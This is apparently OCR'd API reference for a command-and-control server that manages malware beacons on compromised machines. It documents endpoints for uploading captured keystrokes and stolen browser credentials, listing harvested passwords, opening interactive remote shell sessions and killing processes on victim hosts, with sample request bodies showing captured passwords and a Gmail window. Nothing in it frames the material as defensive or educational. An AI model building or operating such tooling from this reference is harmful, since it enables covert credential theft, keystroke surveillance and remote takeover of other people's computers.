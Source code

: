 ### Keylogger Integration
```bash
# Upload keystrokes
POST /api/beacon/{beacon_id}/keylog
Body: {
  "keystrokes": "password123",
  "window": "Chrome - Gmail"
}

# Retrieve keylogs
GET /api/beacon/{beacon_id}/keylogs
Headers: X-API-Key: <key>
```

### Credential Harvesting
```bash
# Submit credentials
POST /api/beacon/{beacon_id}/credentials
Body: {
  "source": "Chrome Passwords",
  "username": "admin@example.com",
  "password": "P@ssw0rd!",
  "domain": "example.com"
}

# List all credentials
GET /api/credentials
Headers: X-API-Key: <key>
```

### Interactive Sessions
```bash
# Create shell session
POST /api/beacon/{beacon_id}/session/create
Headers: X-API-Key: <key>
Body: {
  "type": "shell",
  "metadata": {"user": "admin"}
}

# List active sessions
GET /api/sessions
Headers: X-API-Key: <key>
```

### Process Management
```bash
# List processes
POST /api/beacon/{beacon_id}/processes
Headers: X-API-Key: <key>
Body: {"action": "list"}

# Kill process
POST /api/beacon/{beacon_id}/processes
Headers: X-API-Key: <key>
Body: {"action": "kill", "target": "notepad.exe"}
```
